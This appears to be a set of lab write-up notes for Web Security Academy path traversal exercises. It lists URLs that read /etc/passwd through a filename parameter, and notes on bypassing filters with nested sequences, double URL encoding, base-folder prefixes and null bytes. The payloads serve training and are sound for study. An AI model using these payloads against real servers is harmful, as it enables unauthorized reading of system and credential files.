 ___

```
https://0af200fb03feb838824f564900bc0062.web-security-academy.net/image?filename=/etc/passwd
```

```
https://0af9004403ec535286c8cf3100fb0062.web-security-academy.net/image?filename=../../../etc/passwd
```

`....//` or `....\/`

```
https://0a16002004c795cb8567554500cb004d.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

In some contexts, such as in a URL path or the `filename` parameter of a `multipart/form-data` request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

```
https://0a9f0022039b1e5880a649ed00f500a8.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.

```
https://0a9f00f2046a1395872d897100e1007f.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

An application may require the user-supplied filename to end with an expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`.




